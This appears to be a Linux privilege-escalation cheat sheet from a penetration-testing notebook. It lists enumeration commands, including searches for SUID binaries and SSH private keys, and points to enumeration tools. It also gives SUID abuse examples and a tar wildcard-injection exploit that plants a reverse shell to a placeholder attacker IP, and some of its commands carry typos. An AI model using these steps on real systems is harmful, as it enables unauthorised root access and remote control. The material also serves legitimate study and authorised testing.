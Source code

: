 ```yaml
---
title: 5 – Privesc Linux
summary: Privilege Escalation step – a note for elevating privileges on a Linux machine.
description: Privilege Escalation step – a note for elevating privileges on a Linux machine.
---
```


# Privesc Checklist

---

 > 
 > **<font color=red>sudo -l</font>**</br>
 > Display commands allowed to run with root privileges.

 > 
 > **<font color=red>history</font>**</br>
 > Show shell history.

 > 
 > **<font color=red>env</font>**</br>
 > Show environment variables.

 > 
 > **<font color=red>find / -perm -u=s -type f 2> /dev/null</font>**</br>
 > Search for commands with SUID enabled (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>getcap -r / 2>/dev/null</font>**</br>
 > Search for commands with capabilities (then check [https://gtfobins.github.io/](https://gtfobins.github.io/)) 

 > 
 > **<font color=red>find / -writable 2>/dev/null</font>**</br>
 > Search for writable folders.

 > 
 > **<font color=red>find / -name id_rsa 2> /dev/null/</font>**</br>
 > Search for SSH private keys.

 > 
 > **<font color=red>cat /etc/crontab</font>**</br>
 > Looking for automated scripts.

# Others Suggestions

---

* Determining the kernel of the machine and search for kernel exploitation (such as Dirtyc0w).
* Misconfigured file and directory permissions.
* pspy (process snooping): https://github.com/DominicBreuker/pspy 
* https://redteamrecipe.com/40-Method-For-Privilege-Escalation/

# Automated Scripts

---

### LINPEAS

https://github.com/carlospolop/PEASS-ng/releases

 > 
 > **<font color=red>./linpeas.sh</font>**

---

### LINEUM

https://github.com/rebootuser/LinEnum

 > 
 > **<font color=red>./LinEnum.sh</font>**

---

### METASPLOIT


 > 
 > **<font color=red>use</font> <font color=lightblue>post/multi/recon/local_exploit_suggester</font>**</br>
 > Check exploits for privilege escalation.

# SUID Examples

---

### CP

 > 
 > **<font color=red>cp /root/</font> /home/myUser/**</br>
 > **<font color=red>cd</font> /home/myUser/root**</br>
 > Access root content.

---

### BASH

 > 
 > **<font color=red>bash -p</font>**</br>
 > Get a root shell.

# Wildcard Exploitation

---

### Resource

[https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/)

### Example

Script running as root:

 > 
 > **tar cf /home/myUser/backups/backup.tgz \***

Exploit:

 > 
 > **<font color=red>echo "bash -i >& i/dev/tcp/</font>\[ATTACKER IP\]<font color=red>/</font>\[ATTACKER PORT\] <font color=red>0>&1" > </font>revshell.sh**</br>
 > **<font color=red>touch "</font>/home/myUser/backups/<font color=red>--checkpoint-action=exec=</font>sh revshell.sh<font color=red>"</font>**</br>
 > **<font color=red>touch "</font>/home/myUser/<font color=red>"--checkpoint=1"</font>**</br>
